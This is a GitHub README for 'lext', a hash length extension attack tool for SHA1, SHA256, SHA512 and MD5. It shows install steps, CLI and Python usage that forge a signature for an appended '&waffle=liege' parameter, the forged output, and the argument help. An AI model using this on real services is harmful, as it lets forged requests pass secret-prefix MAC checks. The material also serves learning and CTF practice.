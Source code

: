 # 🐶️ lext
Length Extension Attack-tool<br>
SHA1, SHA256, SHA512, MD5

Simple install
```console
git clone https://github.com/mumubebe/lext.git
cd lext/
```

Run as module:
```console
$ python3 -m lext \
      --data 'count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo' \
      --inject '&waffle=liege' \
      --signature '6d5f807e23db210bc254a28be2d6759a0f5f5d99' \
      --secret_length 14 \
      --method 'sha1'
  
b'count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02(&waffle=liege'
0e41270260895979317fff3898ab85668953aaa2

```
or 
```python
>>> from lext import lext
>>> inj, sig = lext(
...     data=b"count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo",
...     inject=b"&waffle=liege",
...     signature="6d5f807e23db210bc254a28be2d6759a0f5f5d99",
...     secret_length=14,
...     method="sha1"
... )
>>> print(sig)
0e41270260895979317fff3898ab85668953aaa2
>>> print(inj)
b'count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02(&waffle=liege'
```

Note that output format for signature and data differs as default; signature as hex and data as bytes string.

About
```console
usage: __main__.py [-h] [-m {sha1,sha256,sha512,md5}] -d DATA -i INJECT -s SIGNATURE -l SECRET_LENGTH [--no-signature] [--no-outputdata]
                   [--base64]

Length Extension Attack-tool

optional arguments:
  -h, --help            show this help message and exit
  -m {sha1,sha256,sha512,md5}, --method {sha1,sha256,sha512,md5}
                        Hash method
  -d DATA, --data DATA  The original data known message from server. This data is prepend with a hidden secret unknown to client.
  -i INJECT, --inject INJECT
                        Additional message to append to the original data
  -s SIGNATURE, --signature SIGNATURE
                        Signature of original data
  -l SECRET_LENGTH, --secret_length SECRET_LENGTH
                        Length of the hidden secret that is hidden from client
  --no-signature        Ignore output return of signature
  --no-outputdata       Ignore output return of new data message
  --base64              Format output as base64. Note that both signature and data will be converted (default for signature is hex string
                        and byte string for data output)
```
**Note that the implemented hash algorithms are not optimized in any way.**


Similar tools:<br>
https://github.com/stephenbradshaw/hlextend<br>
https://github.com/bwall/HashPump
